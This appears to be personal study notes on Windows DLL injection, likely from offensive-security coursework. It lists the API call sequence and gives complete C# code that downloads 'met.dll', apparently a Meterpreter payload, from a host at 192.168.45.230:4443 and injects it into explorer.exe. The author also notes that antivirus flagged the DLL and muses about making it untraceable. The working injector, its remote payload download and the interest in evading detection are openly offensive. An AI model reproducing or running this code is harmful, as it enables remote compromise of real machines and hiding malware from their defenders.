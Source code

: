 # inject an entire DLL into a remote process instead of just shellcode.  
<br><br><br>

Steps:

OpenProcess — obtain a handle to the target process.

VirtualAllocEx — allocate memory in the target process.

WriteProcessMemory — write full path to the DLL into allocated memory.

GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA") — locate function address.

CreateRemoteThread — execute LoadLibraryA with the path as argument.



### LoadLibraryA ProtoType
*Many Win32 APIs come in two variants, with a suffix of "A" or "W". In this instance, it would be LoadLibraryA or LoadLibraryW and describes if any string arguments are to be given as ASCII ("A") or Unicode ("W"), but otherwise signify the same functionality.*  
<br><br>

```C
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName
);

```

<br><br><br>


## This never worked.  The DLL file was being flagged and wouldnt download.  I think if I could get the dll untraceable it might load?  
<br>

```c#

using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace DLL_Injection_with_csharp
{
    internal class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);


        static void Main(string[] args)
        {
            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";

            WebClient wc = new WebClient();
            wc.DownloadFile("http://192.168.45.230:4443/met.dll", dllName);

            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);


        }
    }
}


```
